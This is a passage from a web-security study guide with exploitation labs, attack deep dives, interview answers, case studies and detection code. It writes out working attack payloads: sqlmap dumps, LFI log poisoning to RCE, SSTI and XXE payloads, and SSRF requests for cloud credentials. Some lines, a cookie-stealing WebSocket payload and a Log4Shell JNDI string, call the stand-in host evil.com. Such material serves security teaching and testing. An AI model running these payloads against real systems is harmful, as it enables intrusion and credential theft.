    ssl_ciphers ECDHE-ECDSA-AES128-GCM-SHA256:ECDHE-RSA-AES128-GCM-SHA256;
    ssl_prefer_server_ciphers on;
    add_header Strict-Transport-Security "max-age=63072000" always;
    add_header X-Frame-Options DENY;
    add_header X-Content-Type-Options nosniff;
    add_header Content-Security-Policy "default-src 'self'";
}

```

**Risk:** High | **Complexity:** Medium
---

## 15. WAF vs RASP

| Property | WAF (Web Application Firewall) | RASP (Runtime Application Self-Protection) |

|----------|-------------------------------|-------------------------------------------|

| Location | Network edge / reverse proxy | Inside application runtime |

| Detection | Signature + anomaly (regex, rate) | Behavioral (code-level) |

| Bypass risk | High (encoding, parameter pollution) | Low (sees parsed data) |

| False positives | Common | Rare |

| Performance impact | Low | Medium |

| Deployment | No code changes required | Requires agent/sdk integration |

| Coverage | Known attack patterns | Known + unknown (zero-day) |

| Examples | ModSecurity, AWS WAF, Cloud Armor | Contrast Protect, Hdiv, Sqreen |

| Virtual Patching | Yes (block at network) | Yes (block at runtime) |

### Defense in Depth Layers


```

Layer 1: Secure Code (Parameterized queries, output encoding)
Layer 2: Security Headers (CSP, HSTS, XFO, X-Content-Type-Options)
Layer 3: WAF (ModSecurity, AWS WAF, Cloud Armor)
Layer 4: RASP (Contrast, Hdiv, Sqreen)
Layer 5: Runtime Monitoring (SIEM, IDS/IPS)
Layer 6: Bug Bounty + Penetration Testing

```

---

## 16. Practical Exploitation Labs

### 16.1 SQLi with sqlmap Against DVWA


```bash
# Intercept a DVWA request with Burp, save to request.txt

sqlmap -r request.txt --batch --level=3 --risk=2
# Enumerate databases

sqlmap -r request.txt --dbs
# Enumerate tables

sqlmap -r request.txt -D dvwa --tables
# Dump users table

sqlmap -r request.txt -D dvwa -T users --dump
# Cookie-authenticated scan

sqlmap -u "http://dvwa.local/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=abc123; security=low" --batch --dbs
# POST-based injection

sqlmap -u "http://dvwa.local/login.php" --data="username=admin&password=test" --batch

```

### 16.2 XSS Testing


```bash
# Reflected XSS test

curl "http://dvwa.local/vulnerabilities/xss_r/?name=<script>alert(1)</script>"
# Stored XSS - post a guestbook comment

curl -X POST "http://dvwa.local/vulnerabilities/xss_s/" --data "txtName=test&mtxMessage=<script>alert(1)</script>&btnSign=Sign+Guestbook" --cookie "PHPSESSID=abc123; security=low"

```

### 16.3 CSRF with csrfpoc


```bash
# Install csrfpoc (Python tool)

pip install csrfpoc
# Generate a CSRF PoC HTML page

csrfpoc -u "http://bank.com/transfer" -d "to=attacker&amount=10000" -o poc.html

```

### 16.4 Burp Suite - Intercept, Repeater, Intruder, Proxy


```text
PROXY SETUP:
1. Start Burp > Proxy > Options
2. Add listener: 127.0.0.1:8080
3. Configure browser to use proxy 127.0.0.1:8080
4. Install Burp CA certificate
INTERCEPT:
1. Turn Intercept ON in Proxy > Intercept tab
2. Browse to target - requests pause in Burp
3. Forward/Modify/Drop intercepted requests
REPEATER:
1. Right-click request > Send to Repeater
2. Modify parameters, click Send
3. Observe response changes
INTRUDER:
1. Right-click request > Send to Intruder
2. Positions: Highlight payload position (e.g. id=1)
3. Payloads: Choose payload type
4. Options: Set grep match for "error"
5. Start Attack

```

### 16.5 ZAP - Spider, Active Scan, Report


```bash
# Start ZAP headless

zap.sh -daemon -port 8081
# Spider the target

zap-cli spider http://dvwa.local
# Active scan

zap-cli active-scan http://dvwa.local
# Generate HTML report

zap-cli report -o zap_report.html -f html
# Full automated scan

zap-cli quick-scan -o report.html -s all http://target.com

```

### 16.6 JWT Token Manipulation


```bash
# Install jwt_tool

git clone https://github.com/ticarpi/jwt_tool.git
cd jwt_tool
# Check for "alg: none"

jwt_tool.py "eyJhbGciOiJub25lIn0.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ."
# Algorithm confusion (RS256 to HS256)

jwt_tool.py TOKEN -X a -k public_key.pem
# Brute force weak HMAC secret

jwt_tool.py TOKEN -C -d /usr/share/wordlists/rockyou.txt
# Use jwt.io - paste JWT, try changing algorithm to "none"


```

### 16.7 SSRF Exploit


```bash
# SSRF to cloud metadata

curl "http://vulnerable.com/fetch?url=http://169.254.169.254/latest/meta-data/"
# SSRF to internal service

curl "http://vulnerable.com/fetch?url=http://localhost:8080/admin"
# SSRF blind - use Burp Collaborator

curl "http://vulnerable.com/fetch?url=http://burpcollaborator.net/test"

```

### 16.8 XXE Exploit


```bash
# XXE to read /etc/passwd

curl -X POST "http://vulnerable.com/xml" \
     -H "Content-Type: application/xml" \
     -d "<?xml version="1.0"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><root>&xxe;</root>"
# XXE to SSRF

curl -X POST "http://vulnerable.com/xml" \
     -H "Content-Type: application/xml" \
     -d "<?xml version="1.0"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/">]><root>&xxe;</root>"

```

### 16.9 Directory Traversal (LFI to RCE)


```bash
# Confirm LFI

curl "http://vulnerable.com/index.php?page=../../../etc/passwd"
# Poison Apache log with PHP payload

curl -H "User-Agent: <?php system(\$_GET['cmd']); ?>" http://vulnerable.com/
# Include the log file and execute command

curl "http://vulnerable.com/index.php?page=../../../var/log/apache2/access.log&cmd=id"
# PHP wrappers for file reading

curl "http://vulnerable.com/index.php?page=php://filter/convert.base64-encode/resource=config.php"

```

### 16.10 SSTI (Server-Side Template Injection)


```bash
# Test for SSTI

curl "http://vulnerable.com/greet?name={{7*7}}"
# Response: "Hello 49" confirms SSTI

# Jinja2 SSTI to RCE

curl "http://vulnerable.com/greet?name={{config.__class__.__init__.__globals__['os'].popen('id').read()}}"
# Freemarker SSTI

curl "http://vulnerable.com/greet?name=<#assign ex='freemarker.template.utility.Execute'?new()>${ex('id')}"
# Velocity SSTI

curl "http://vulnerable.com/greet?name=$class.inspect('java.lang.Runtime').type.getRuntime().exec('id')"

```

## 29. Advanced Exploitation Techniques

### 17.1 Race Condition Exploitation


Race conditions occur when a system's behavior depends on the sequence or timing of uncontrolled events. Attackers exploit this window by sending many concurrent requests.

```bash
# Race condition testing with Burp Turbo Intruder

python3 turbo_intruder.py -u "http://vulnerable.com/coupon/redeem" \
  -d "coupon=DISCOUNT50" -c 50 --cookie "PHPSESSID=abc123"
# If 50 requests process before the coupon-used flag commits, attacker gets 50x discount


```

### 17.2 GraphQL Injection


GraphQL APIs are susceptible to injection, introspection abuse, and batching attacks.

```graphql
# Introspection query (should be disabled in production)

query {
  __schema {
    types {
      name
      fields {
        name
        type {
          name
        }
      }
    }
  }
}
# Batching attack - brute force multiple passwords simultaneously

query {
  a: login(username: "admin", password: "pass1") { token }
  b: login(username: "admin", password: "pass2") { token }
  c: login(username: "admin", password: "pass3") { token }
}

```

### 17.3 WebSocket Attacks


WebSocket connections bypass traditional HTTP security controls.

```javascript
// XSS via WebSocket (if origin validation is missing)
const ws = new WebSocket("ws://vulnerable.com/chat");
ws.onopen = () => ws.send(JSON.stringify({
  message: "<script>fetch('https://evil.com/steal?c='+document.cookie)</script>"
}));

```

### 17.4 Prototype Pollution (Client-Side)


```javascript
// Vulnerable code
function merge(target, source) {
  for (let key in source) {
    if (typeof source[key] === "object") {
      merge(target[key], source[key]);
    } else {
      target[key] = source[key];
    }
  }
}
// Attack payload via JSON input
{
  "__proto__": {
    "isAdmin": true
  }
}

```

### 17.5 Cookie Tossing


```text
If example.com sets cookie "session" with path "/app"
And attacker-controlled app.example.com also sets "session" with path "/"
Browser may send attacker's session cookie to example.com/app

```

---

## 30. Security Testing Framework

### Testing Methodology Reference


```text
Phase 1: Information Gathering
  - DNS enumeration (subfinder, amass)
  - Technology fingerprinting (whatweb, wappalyzer)
  - Endpoint discovery (gau, katana, wayback)
  - Parameter fuzzing (ffuf, wfuzz)
Phase 2: Configuration Testing
  - Security headers check (SecurityHeaders.com)
  - TLS configuration (testssl.sh)
  - CORS misconfiguration
  - HTTP methods (OPTIONS scan)
Phase 3: Input Validation Testing
  - SQL injection (sqlmap)
  - XSS (dalfox, xsshunter)
  - SSTI (tplmap)
  - XXE
  - LFI/RFI
  - Command injection (commix)
Phase 4: Authentication Testing
  - Credential brute force (hydra)
  - JWT manipulation (jwt_tool)
  - Session fixation
  - 2FA bypass techniques
Phase 5: Authorization Testing
  - IDOR checks
  - Role/privilege escalation
  - Directory traversal
  - Forced browsing
Phase 6: Business Logic Testing
  - Parameter manipulation
  - Race conditions
  - Workflow bypass
  - Coupon/price manipulation
Phase 7: Reporting
  - Risk rating (CVSS 3.1)
  - Steps to reproduce
  - Remediation guidance
  - Proof of concept

```

### CVSS 3.1 Scoring Reference


```text
Severity   Score Range
None       0.0
Low        0.1-3.9
Medium     4.0-6.9
High       7.0-8.9
Critical   9.0-10.0
Base Metrics:
- AV: Network (N) / Adjacent (A) / Local (L) / Physical (P)
- AC: Low (L) / High (H)
- PR: None (N) / Low (L) / High (H)
- UI: None (N) / Required (R)
- S: Unchanged (U) / Changed (C)
- C/I/A: None (N) / Low (L) / High (H)

```

---

## 31. Web Security Tools Reference

### Tool Comparison Table


| Tool | Category | Use Case | Command Example |

|------|----------|----------|-----------------|

| sqlmap | SQLi | Automated SQL injection | sqlmap -r req.txt --batch |

| Burp Suite | Proxy | Intercept, scan, automate | Intercept mode on :8080 |

| OWASP ZAP | Scanner | Full automated scanning | zap-cli quick-scan url |

| jwt_tool | JWT | Token manipulation | jwt_tool token -X a |

| xsstrike | XSS | Advanced XSS detection | xsstrike -u "url?q=FUZZ" |

| john | Password | Hash cracking | john hash.txt --wordlist=rockyou |

| hydra | Brute force | Online password attack | hydra -l admin -P wordlist target.com http-post-form |

| nmap | Scanner | Port/service discovery | nmap -sV -sC target.com |

| nikto | Scanner | Web server scan | nikto -h target.com |

| nuclei | Scanner | Template-based scanning | nuclei -u target.com -t cves/ |

### Useful Online Resources


```text
CSP Evaluator:         https://csp-evaluator.withgoogle.com/
Security Headers:      https://securityheaders.com/
SSL Labs:              https://www.ssllabs.com/ssltest/
JWT.io:                https://jwt.io/
HackerOne:             https://hackerone.com/
Bugcrowd:              https://bugcrowd.com/
Exploit-DB:            https://www.exploit-db.com/
CVE Details:           https://www.cvedetails.com/
OWASP Cheat Sheet:     https://cheatsheetseries.owasp.org/
MITRE ATT&CK:          https://attack.mitre.org/

```

---

## 32. Expanded Interview Corner

### Q16: What is IDOR and how is it different from broken access control?


**Answer:** IDOR (Insecure Direct Object Reference) is a type of broken access control where an application exposes internal object references (database IDs, file paths) and fails to verify if the user should access that object. Example: changing `GET /api/invoice/123` to `/api/invoice/456` and viewing another user's invoice. Prevention: use indirect references (UUIDs) and always verify ownership server-side.
### Q17: Explain DOM Clobbering.


**Answer:** DOM Clobbering is an attack where HTML elements with `id` or `name` attributes override JavaScript variables. For example, `<a id="config">` overrides `window.config`. If the application then checks `if (config.isAdmin)`, the attacker can control the result by setting `href` attribute. Prevention: use `typeof` checks, avoid trusting DOM properties for security decisions.
### Q18: What is the difference between XSS and CSRF?


**Answer:** XSS executes attacker-controlled JavaScript in the victim's browser (trust is violated). CSRF tricks the browser into sending authenticated requests to a target site (identity is abused). XSS can bypass CSRF protections (because the script reads the token). CSRF does not require JavaScript at all (image tag, form submission).
### Q19: What are security headers and which are most important?


**Answer:** HTTP response headers that instruct browsers how to behave regarding security. The most important: (1) Content-Security-Policy - prevents XSS and data injection; (2) Strict-Transport-Security - enforces HTTPS; (3) X-Frame-Options - prevents clickjacking; (4) X-Content-Type-Options - prevents MIME sniffing; (5) Set-Cookie with HttpOnly, Secure, SameSite - protects session cookies.
### Q20: What is CRLF injection?


**Answer:** CRLF injection occurs when an attacker injects carriage return (`\r`) and line feed (`\n`) characters into HTTP headers or responses. This can split the response, allowing HTTP response splitting, header injection, or XSS. Example: injecting `%0d%0aSet-Cookie:%20session=stealed` into a redirect URL. Prevention: strip or encode `\r\n` from all user input used in headers.
### Q21: How does CSP with strict-dynamic work?


**Answer:** `strict-dynamic` allows scripts loaded by trusted scripts to also execute, propagating trust through the script graph. This eliminates the need to list every CDN in the CSP. If script A (loaded with the correct nonce) creates script B via `document.createElement('script')`, script B is also trusted. `strict-dynamic` also ignores `https:` scheme allowlists and most hosts in `script-src`.
### Q22: What is the Same Origin Policy?


**Answer:** Same-Origin Policy (SOP) is a browser security mechanism that restricts how scripts on one origin can interact with resources from another origin. Two URLs have the same origin if they share the same protocol, host, and port. SOP prevents a malicious site from reading data from another site without explicit permission (CORS, postMessage, etc.).
### Q23: Explain CORS and common misconfigurations.


**Answer:** CORS (Cross-Origin Resource Sharing) relaxes SOP using HTTP headers. Common misconfigurations: (1) `Access-Control-Allow-Origin: *` with credentials - allows any site to read authenticated responses; (2) Reflecting origin from `Origin` header - attacker sets Origin to evil.com; (3) Null origin allowed - sandboxed iframes can bypass. Secure config: `Access-Control-Allow-Origin: https://trusted.com` with `Vary: Origin`.
### Q24: What is Cache Poisoning and how does it work?


**Answer:** Web cache poisoning tricks a caching proxy into storing a malicious response and serving it to other users. An attacker finds an unkeyed input (like `X-Forwarded-Host` header) that the backend uses to generate URLs. By sending a request with a malicious host header, the cache stores the poisoned response. All subsequent users receive the malicious version until it expires.
### Q25: What are common 2FA bypass techniques?


**Answer:** (1) Bypassing via OAuth - some apps only require 2FA on the primary login but not on social login; (2) Session reuse - if 2FA is checked once per session, in-progress sessions may bypass subsequent checks; (3) Backup code brute force - if backup codes have low entropy; (4) Response manipulation - modifying the 2FA validation response from false to true; (5) Race condition - submitting 2FA code and cancelling simultaneously.
---

## 33. Expanded Case Studies: SolarWinds & Log4Shell

### Case Study 5: SolarWinds 2020 - Supply Chain Attack


**Attack Type:** Malicious code injection into Orion software updates
**Impact:** 18,000 customers compromised, including US government agencies
**Duration:** Undetected for 14 months
#### Attack Chain

1. **Initial access:** Attacker compromises SolarWinds build environment
2. **Inject:** Malicious code (SUNBURST) inserted into Orion.dll during compilation
3. **Sign:** Digitally signed with SolarWinds certificate (trusted)
4. **Distribute:** 18,000 customers downloaded the trojanized update via official channels
5. **Execute:** SUNBURST sleeps for 14 days, then establishes C2 via DNS lookups
6. **Pivot:** Attacker uses access to breach Microsoft, FireEye, US agencies
#### Lessons

- Verify software integrity even from trusted vendors
- Monitor DNS queries for anomalous patterns
- Implement build pipeline security (code signing, integrity checks)
### Case Study 6: Log4Shell 2021 - CVE-2021-44228


**Attack Type:** JNDI injection via log message
**Impact:** Virtually every Java application affected
**CVSS:** 10.0 (Critical)
#### Attack Chain

1. Attacker sends `${jndi:ldap://evil.com/exploit}` in any logged field
2. Log4j processes the JNDI lookup (no input validation on log messages)
3. Server connects to attacker's LDAP server
4. LDAP returns a serialized Java object (remote class loading)
5. Server deserializes and executes arbitrary code
6. Full RCE achieved

```http
GET / HTTP/1.1
Host: vulnerable.com
User-Agent: ${jndi:ldap://evil.com/exploit}
X-Forwarded-For: ${jndi:ldap://evil.com/exploit}

```

#### Mitigation

- Update Log4j to 2.17.0+
- Set JVM property: `log4j2.formatMsgNoLookups=true`
- WAF rules blocking `${jndi:`, `${${lower:jndi:`
- Disable JNDI: `-Dlog4j2.disableJndiLookup=true`
---

## 34. Secure Development Lifecycle (SSDLC)

### Security Gates


```text
Phase           Gate                Activities
Design          Threat Model        STRIDE, attack trees, trust boundaries
Development     SAST                SonarQube, Checkmarx, Semgrep
Testing         DAST                ZAP, Burp Suite, nuclei
SCA             Dependency Check    OWASP Dependency-Check, Snyk
Pre-Prod        Pen Test            Manual + automated pentest
Production      WAF/RASP            ModSecurity, Contrast, Cloud Armor
Monitoring      SIEM                Splunk, ELK, Sentinel
Incident        IR Plan             Playbooks, runbooks, tabletop exercises

```

### Security Requirements Checklist


```text
 Authentication: MFA enabled, password policy, account lockout
 Authorization: Role-based access, ownership checks on every resource
 Input Validation: Whitelist patterns, parameterized queries
 Output Encoding: Context-aware (HTML, JS, CSS, URL)
 Session Management: HttpOnly, Secure, SameSite, unique session IDs
 Cryptography: TLS 1.2+, bcrypt passwords, AES-256-GCM for data at rest
 Logging: All auth events, access failures, privilege changes
 Headers: CSP, HSTS, XFO, X-Content-Type-Options, Referrer-Policy

```

---

## 35. Threat Modeling with STRIDE

| Threat | Definition | Example | Mitigation |

|--------|------------|---------|------------|

| Spoofing | Impersonating someone/something | Phishing, JWT forgery | Authentication, MFA |

| Tampering | Modifying data/code | SQL injection, XSS | Integrity checks, parameterized queries |

| Repudiation | Denying actions | No audit log | Logging, digital signatures |

| Info Disclosure | Exposing private data | IDOR, SSRF | Authorization, encryption |

| DoS | Denying service | DDoS, ReDoS | Rate limiting, input validation |

| Elevation of Privilege | Gaining unauthorized access | Role escalation | Principle of least privilege |

### PASTA Threat Model (Process for Attack Simulation and Threat Analysis)


```text
Stage 1: Define business objectives
Stage 2: Define technical scope
Stage 3: Application decomposition
Stage 4: Threat analysis
Stage 5: Vulnerability analysis
Stage 6: Attack enumeration and modeling
Stage 7: Risk and impact analysis

```

---

## 36. Web Security Compliance Standards

| Standard | Scope | Key Web Security Requirements |

|----------|-------|------------------------------|

| PCI DSS v4.0 | Payment card data | WAF, encryption, access control, logging |

| GDPR | EU personal data | Breach notification, data protection by design |

| HIPAA | US healthcare | Access control, audit controls, integrity |

| SOC 2 | Service organizations | Security monitoring, access management |

| ISO 27001 | Information security | Risk assessment, security controls |

| OWASP ASVS | Web applications | 300+ verified security requirements |

### OWASP ASVS Levels


```text
Level 1: All applications (opportunistic security)
  - SQL injection prevention, XSS prevention, HTTPS
  - 14 categories, ~100 requirements
Level 2: Applications handling sensitive data
  - CSRF tokens, CSP, account lockout, rate limiting
  - All Level 1 + additional ~150 requirements
Level 3: High-value / critical applications
  - Defense in depth, anti-automation, dynamic analysis
  - All Level 1-2 + additional ~50 requirements

```

## 37. Additional Attack Deep Dives

### 25.1 HTTP Parameter Pollution (HPP)


When an application receives multiple HTTP parameters with the same name, different technologies handle the collision differently.

```text
Technology   Behavior
ASP.NET      Concatenates: a=1,2
PHP/JSP      Last value wins: a=2
Python       List: a[0]=1, a[1]=2
Attack scenario:
  /transfer?amount=100&amount=1
  PHP: amount becomes 1; Python: process fails or processes both

```

### 25.2 HTTP Verb Tampering


Testing alternative HTTP methods can bypass access controls.

```bash
# Test available methods

curl -X OPTIONS http://target.com/api/admin -v
# Bypass GET restriction via POST

curl -X POST http://target.com/api/admin/deleteUser
# Bypass via HEAD

curl -X HEAD http://target.com/admin/panel

```

### 25.3 Response Splitting / Header Injection


```http
# Inject headers via CRLF in redirect parameter

GET /redirect?url=http://evil.com%0d%0aSet-Cookie:%20session=stealed HTTP/1.1
Host: target.com

```

### 25.4 Method Override Bypass


Some frameworks support header-based method override:

```http
POST /api/delete HTTP/1.1
Host: target.com
X-HTTP-Method-Override: DELETE
Content-Length: 0

```

### 25.5 Mass Assignment


```json
// Vulnerable: All request body fields are bound to model
POST /api/user/register
{
  "username": "newuser",
  "password": "pass123",
  "isAdmin": true,
  "role": "superuser"
}
// If user model has isAdmin field, attacker escalates privileges

```

### 25.6 Race Condition in File Upload


```bash
# Upload same file multiple times rapidly - race the existence check

for i in {1..20}; do
  curl -X POST -F "file=@shell.php" http://target.com/upload &
done
wait
# If existence check and save are not atomic, multiple files may be saved


```

### 25.7 ReDoS (Regular Expression Denial of Service)


```javascript
// Vulnerable regex with catastrophic backtracking
const regex = /^([a-z]+)+$/;
regex.test("aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa!")  // Takes seconds to fail
// Evil input that triggers polynomial time complexity
const evil = "a".repeat(30) + "!";

```

### 25.8 Server Side Includes (SSI)


```html
<!-- If .shtml files are processed by the server -->
<!--#exec cmd="ls -la /etc" -->
<!--#include virtual="/etc/passwd" -->

```

---

## 38. Cloud-Specific Web Attacks

### 26.1 AWS-Specific SSRF


```bash
# IMDSv1 (vulnerable - no session wall)

curl http://169.254.169.254/latest/meta-data/iam/security-credentials/
# IMDSv1 with path traversal

curl http://169.254.169.254/latest/meta-data/iam/security-credentials/s3-admin-role
# IMDSv1 - get EC2 user-data (may contain startup scripts with secrets)

curl http://169.254.169.254/latest/user-data/

```

### 26.2 IMDSv2 Protection


```bash
# IMDSv2 requires token header - harder to exploit via SSRF

TOKEN=$(curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600")
curl -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/

```

### 26.3 Cloud Storage Enumeration


```bash
# AWS S3 bucket enumeration

aws s3 ls s3://target-bucket/ --no-sign-request
# Google Cloud Storage

gsutil ls gs://target-bucket/
# Azure Blob

curl https://target.blob.core.windows.net/container?restype=container&comp=list

```

---

## 39. Security Automation Scripts

### Automated Security Headers Check (Python)


```python
import requests
def check_security_headers(url):
    headers_to_check = [
        "Content-Security-Policy",
        "Strict-Transport-Security",
        "X-Frame-Options",
        "X-Content-Type-Options",
        "Referrer-Policy",
        "Permissions-Policy",
        "Cache-Control"
    ]
    try:
        resp = requests.get(url, timeout=10)
        present = [h for h in headers_to_check if h in resp.headers]
        missing = [h for h in headers_to_check if h not in resp.headers]
        print(f"Checking: {url}")
        print(f"Present ({len(present)}): {', '.join(present)}")
        print(f"Missing ({len(missing)}): {', '.join(missing)}")
        if "Content-Security-Policy" in resp.headers:
            print(f"CSP: {resp.headers['Content-Security-Policy'][:80]}...")
    except Exception as e:
        print(f"Error: {e}")
check_security_headers("https://example.com")

```

### SQLi Detection Heuristic Script


```python
import requests
def detect_sqli(endpoint, param, value):
    payloads = {
        "single_quote": "'",
        "double_quote": "\"",
        "or_true": "' OR '1'='1",
        "or_false": "' OR '1'='2",
        "sleep_mysql": "' OR SLEEP(5) --",
        "union_select": "' UNION SELECT NULL--",
    }
    base_params = {param: value}
    for name, payload in payloads.items():
        params = dict(base_params)
        params[param] = payload
        try:
            start = time.time()
            resp = requests.get(endpoint, params=params, timeout=10)
            elapsed = time.time() - start
            if "error" in resp.text.lower() or "sql" in resp.text.lower():
                print(f"[!] Possible SQLi ({name}): Error in response")
            if elapsed > 4 and "sleep" in name:
                print(f"[+] Time-based SQLi confirmed ({name}): {elapsed:.2f}s delay")
        except Exception as e:
            print(f"[-] {name}: {e}")

```

---

## 40. Web Security Glossary

| Term | Definition |

|------|------------|

| Origin | Protocol + host + port combination (e.g., https://example.com:443) |

| SOP | Same-Origin Policy - prevents cross-origin reads |

| CORS | Cross-Origin Resource Sharing - relaxes SOP selectively |

| CSP | Content Security Policy - restricts resource loading |

| HSTS | HTTP Strict Transport Security - enforces HTTPS |

| SRI | Subresource Integrity - verifies third-party script hashes |

| XSS | Cross-Site Scripting - script injection into browser |

| CSRF | Cross-Site Request Forgery - unauthorized state changes |

| SQLi | SQL Injection - database command injection |

| SSRF | Server-Side Request Forgery - internal network probing |

| XXE | XML External Entity - file read via XML parser |

| LFI | Local File Inclusion - reading server files |

| RFI | Remote File Inclusion - loading remote scripts |

| IDOR | Insecure Direct Object Reference - unauthorized data access |

| OGNL | Object-Graph Navigation Language - Java expression injection |

| JNDI | Java Naming and Directory Interface - LDAP/RMI lookups |

| OOB | Out-of-Band - exfiltration via DNS/HTTP callbacks |

| WAF | Web Application Firewall - edge-layer attack blocking |

| RASP | Runtime Application Self-Protection - in-app security |

| ASVS | Application Security Verification Standard - OWASP requirements |

---

## 41. Vulnerability Scoring and Prioritization

### CVSS 3.1 Severity Distribution


| Rating | CVSS Score | Response SLA | Example |

|--------|-----------|--------------|---------|

| None | 0.0 | None | Information only |

| Low | 0.1-3.9 | 90 days | Reflected XSS with no auth |

| Medium | 4.0-6.9 | 30 days | Stored XSS requiring interaction |

| High | 7.0-8.9 | 7 days | SQLi with data extraction |

| Critical | 9.0-10.0 | 24 hours | RCE, authentication bypass |

### Risk Calculation Matrix


```text
Likelihood \ Impact | Low    | Medium | High   | Critical
--------------------|--------|--------|--------|---------
Very High           | Medium | High   | High   | Critical
High                | Medium | Medium | High   | High
Medium              | Low    | Medium | High   | High
Low                 | Low    | Low    | Medium | Medium

```

---

## 42. Final Review

### OWASP Top 10 (2021) → Quick Reference


| # | Category | Key Prevention |

|---|----------|----------------|

| A01 | Broken Access Control | Deny by default, ownership checks, rate limiting |

| A02 | Cryptographic Failures | TLS 1.2+, bcrypt/AES-256, secrets in vault |

| A03 | Injection | Parameterized queries, input validation |

| A04 | Insecure Design | Threat modeling, security requirements |

| A05 | Security Misconfiguration | Hardening checklists, automation |

| A06 | Vulnerable Components | SBOM, dependency scanning, patching |

| A07 | ID & Auth Failures | MFA, account lockout, secure sessions |

| A08 | Data Integrity Failures | SRI, signed updates, safe deserialization |

| A09 | Logging & Monitoring | Audit trails, SIEM, incident response |

| A10 | SSRF | URL allowlists, block internal IPs |

### Key Command Reference


```bash
# SQL injection

sqlmap -r request.txt --batch --dbs
sqlmap -u "http://target.com/page?id=1" --cookie="session=abc" --tables
# XSS testing

curl "http://target.com/search?q=<script>alert(1)</script>"
# CSRF PoC generation

csrfpoc -u "http://bank.com/transfer" -d "amount=10000&to=attacker"
# JWT manipulation

jwt_tool.py "eyJhbGciOiJIUzI1NiJ9.eyJ0ZXN0IjoidGVzdCJ9." -C -d wordlist.txt
# Directory enumeration

ffuf -u "http://target.com/FUZZ" -w /usr/share/wordlists/dirb/common.txt
# Port scanning

nmap -p- -sV target.com
# SSL/TLS testing

testssl.sh --quiet https://target.com
# Security headers check

curl -sI https://target.com | grep -i -E "security|policy|frame|content"

```

## TypeScript Implementations

### XSS Sanitizer & Detector


The following TypeScript class implements a comprehensive XSS detection and sanitization engine. It scans input for reflected, stored, and DOM-based XSS vectors including script tags, event handlers, javascript: URLs, and eval() patterns. The sanitizer strips dangerous content while preserving safe HTML.

```typescript
/**
 * XSSFinding — describes a detected XSS vulnerability
 * @property type — classification of XSS (stored, reflected, or DOM-based)
 * @property payload — the malicious snippet discovered
 * @property severity — risk level based on OWASP guidelines
 * @property vulnerableParam — the input parameter or DOM sink that carried the payload
 */
interface XSSFinding {
  type: 'stored' | 'reflected' | 'dom';
  payload: string;
  severity: 'low' | 'medium' | 'high' | 'critical';
  vulnerableParam: string;
}

/**
 * XSSDetector — scans user-controlled input for XSS attack vectors
 * and provides a sanitize() method that strips dangerous constructs.
 *
 * Covered attack surfaces:
 * - Script tag injection: <script>alert(1)</script>
 * - Event handler attributes: onerror, onload, onfocus, onmouseover
 * - javascript: URL scheme in links and iframes
 * - eval() / setTimeOut(string) patterns
 * - Data URI with embedded HTML
 * - Polyglot / mixed-case bypass attempts
 */
class XSSDetector {
  /**
   * Regex patterns that match common XSS vectors.
   * Ordered by specificity (most specific first) to reduce false positives.
   */
  private static readonly XSS_PATTERNS: RegExp[] = [
    // Script tags with or without attributes
    /<script[\s>]/gi,
    /<\/script>/gi,
    // Inline event handlers (onerror, onload, onfocus, onmouseover, onclick, etc.)
    /\bon\w+\s*=\s*(?:"[^"]*"|'[^']*'|[^\s>]+)/gi,
    // javascript: / vbscript: / data: URIs (common in href/src)
    /\b(?:javascript|vbscript|data)\s*:/gi,
    // eval() / setTimeout(string) / setInterval(string) / new Function()
    /\beval\s*\(/gi,
    /\bsetTimeout\s*\(\s*["']/gi,
    /\bsetInterval\s*\(\s*["']/gi,
    /\bnew\s+Function\s*\(/gi,
    // document.write() with user data
    /document\.write\s*\(/gi,
    // innerHTML / outerHTML assignment sinks
    /\.innerHTML\s*=/gi,
    /\.outerHTML\s*=/gi,
    // Expressions inside template literals (potential DOM clobber)
    /\$\{[^}]+\}/gi,
  ];

  /**
   * Detect XSS vectors in the given input string.
   * Returns an array of XSSFinding objects, one per matched pattern.
   */
  public detectXSS(input: string): XSSFinding[] {
    const findings: XSSFinding[] = [];

    for (const pattern of XSSDetector.XSS_PATTERNS) {
      let match: RegExpExecArray | null;
      const cloned = new RegExp(pattern.source, pattern.flags);

      while ((match = cloned.exec(input)) !== null) {
        const payload = match[0];
        const type = this.classifyPayload(payload);
        findings.push({
          type,
          payload: payload.length > 120 ? payload.slice(0, 120) + '…' : payload,
          severity: this.assessSeverity(payload, type),
          vulnerableParam: this.identifyParam(input, match.index),
        });
      }
    }
    return findings;
  }

  /**
   * Classify whether the payload is more likely stored, reflected, or DOM-based.
   * Uses heuristic rules based on payload structure.
   */
  private classifyPayload(payload: string): XSSFinding['type'] {
    const lower = payload.toLowerCase();
    if (
      lower.includes('innerhtml') ||
      lower.includes('outerhtml') ||
      lower.includes('document.write')
    ) {
      return 'dom';
    }
    if (
      lower.includes('src=') ||
      lower.includes('href=') ||
      lower.includes('data:')
    ) {
      return 'reflected';
    }
    return 'stored';
  }

  /**
   * Assess severity based on payload characteristics and type.
   */
  private assessSeverity(
    payload: string,
    type: XSSFinding['type']
  ): XSSFinding['severity'] {
    const lower = payload.toLowerCase();
    if (
      type === 'stored' &&
      (lower.includes('document.cookie') || lower.includes('fetch('))
    ) {
      return 'critical';
    }
    if (
      type === 'dom' &&
      (lower.includes('eval') || lower.includes('new function'))
    ) {
      return 'high';
    }
    if (lower.includes('alert') || lower.includes('prompt')) {
      return 'medium';
    }
    return 'low';
  }

  /**
   * Identify the vulnerable parameter by looking back from the match index.
   * This is a simplified heuristic for demonstration.
   */
  private identifyParam(input: string, matchIndex: number): string {
    const before = input.slice(0, matchIndex);
    const paramMatch = before.match(/[?&](\w+)=/);
    return paramMatch ? paramMatch[1] : 'unknown';
  }

  /**
   * Sanitize input by stripping or encoding dangerous constructs.
   * This is a defense-in-depth approach — never rely solely on sanitization;
   * always pair with context-aware output encoding.
   *
   * Strategy:
   * 1. Normalize dangerous keywords (mixed-case → lowercase for matching)
   * 2. Remove script tags entire blocks
   * 3. Strip event handler attributes
   * 4. Neutralize javascript:/data: URIs
